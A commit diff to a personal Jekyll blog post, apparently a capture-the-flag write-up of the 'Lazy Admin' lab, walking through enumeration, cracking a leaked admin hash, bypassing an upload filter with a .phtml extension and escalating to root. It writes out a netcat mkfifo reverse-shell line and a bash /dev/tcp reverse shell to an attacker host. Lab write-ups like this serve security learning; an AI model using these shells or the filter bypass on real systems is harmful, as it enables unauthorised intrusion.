

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-09-10-Lazy-Admin.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-10-Lazy-Admin.md

```diff
--- a/_posts/2025-09-10-Lazy-Admin.md
+++ b/_posts/2025-09-10-Lazy-Admin.md
@@ -9,36 +9,164 @@ comments: false
 
 #LAZY ADMIN WRITEUP
 
--Found port 22/80 open with nmap
--enumerated directories with dirb
--/content shows site is running CMS sweetRice
--found login page at /content/as -
-- tried basic sql injection -- failed
--tried sweetrice online file upload vulnerability
--found directory list and site map at /content/inc
--found sql database backup file
--found entry for admin with hashed password
+
+
+
+
+
+We start off running an Nmap scan to enumerate the open ports
+
+>nmap -sCV x.x.x.x
+
+We can see that ports 22 & 80 are open in the nmap scan below
+
+*************** 1
+
+
+
+Navigating to the webpage shows us a basic apache webserver page
+Lets enumerated directories and subdirectories with [dirb](https://www.kali.org/tools/dirb/)
+
+> dirb http://x.x.x.x
+
+
+We can see in the screenshot below that there are a few directories of interest
+
+************* 2
+
+
+Navigating to "/content" show us that this site is running CMS sweetRice and not fully developed
+Lets see if there are any obvious vulnerabilities that have not yet been patched
+
+************** 3
+
+
+Moving further into the directory into the "/content/as" page shows us that there is a login page
+
+
+
+************** 4
+
+
+I tested different credentials as well as a sqli injection but did not have any success
+I also found a "sweetrice" file upload vulnerability that may be possible, but also could not find a working exploit for this
+
+Going back to the dirb scan I inspected alternate web pages that were enumerated
+Navigating to "/content/inc" we find a directory list and site map!
+We show 30 different files and direrectories here but one caught my eye...
+mysql_backup/
+
+************** 5
+
+
+
+*************** 6
+
+
+Lets download this file and inspect it ...
+
+*************** 7
+
+
+Looking at this file we can see that it shows us an admin username and hashed password
+
+
+
+*************** 8
+
 
 admin
 manager
-42f749ade7f9e195bf475f37a44cafcb = Password123
-
--cracked hash with online crack tool
--tried admin -- failed-
--tried manager - WORKED!!!
-
--tried to upload reverse php shell - failed - no shell
--created new reverse shell - fatrat- php - laptop died -
--used pentestmonkey reverse php shell - uploaded to media form
--used burpsuite to modify to request to bypyass filter and sent form and .phtml instead of .php
--GOT USER FLAG
+42f749ade7f9e195bf475f37a44cafcb
 
 
--sudo -l shows that there is a 'backup.pl" file which shows /etc/copy.sh
--/etc/copy is a reverse shell script to complete a connection for a remote listener
--modified script to point to my ip
--ran command "sudo perl /home/itguy/backup.pl
--used alternate port to complete connection
--received root reverse shell
+Lets try to crack this hash first with an online crack tool
+Using [haches.com](https://hashes.com/en/decrypt/hash)
+We are able to crack the hash
 
-catted out /root/root.txt to get ROOT FLAG
+
+*************** 9
+
+>Password123
+
+Let's try to Login with the new credentials at the login page...
+>Account: manager
+>Password: [cracked hashed password]
+
+*************** 10
+
+SUCCESS !
+
+looking around this page for potential vulnerabilites,
+We can see there is the option to upload files in the "MEDIA CENTER" page
+
+*************** 11
+
+
+Lets try and upload a known malicious file...
+I tried to upload the php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)
+Not forgetting to modify the IP and port to point to your machine and listener
+This hoever failed and did not upload successfully
+We can see that there is a filter in place preventing our upload
+Let's try and modify the request and see if we can bypass the filter
+.........................................
+Using [Burpsuite](https://portswigger.net/burp/communitydownload)
+Lets reload and capture the page in order to modify the request
+Let's try to change the request from .php to .phtml and forward the request
+
+*************** 12
+
+We can see that this was succfully uploaded and bypassed the filter
+
+*************** 13
+
+Lets start our listner and navigate to the reverse shell we just uploaded by clicking the link
+WE now get a successful shell on our machine to the target machine
+Lets move into the /home directory and capture our root flag
+
+
+*************** 14
+
+> Flag: THM{redacted}
+
+
+_________________
+
+We now got the User Flag
+Lets try and escalate our privilege to get the root flag...
+
+
+>sudo -l
+
+Running the command above shows that itguy can run a perl script called 'backup.pl' as root
+It appears to executes a bash script named '/etc/copy.sh'
+Looking inside we see there is a  file which shows a script being run
+
+*************** 15
+
+>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
+
+
+Lets modify it to point to our IP and port of our listener
+
+> echo "bash -i >& /dev/tcp/attacker_ip/port 0>&1" > copy.sh
+
+
+*Remember we are already connected on the port we originally chose...
+*So we will need to start a second listener and a different port from the first listener we set up
+
+*************** 16 ??
+
+Lets run the command below to start the script
+
+
+>$sudo /usr/bin/perl /home/itguy/backup.pl
+
+
+We now get our reverse shell as root !!!
+Lets cat out /root/root.txt to capture the ROOT FLAG
+
+
+*************** 17
+
+We have now captured the root flag and pwnd the machine
```
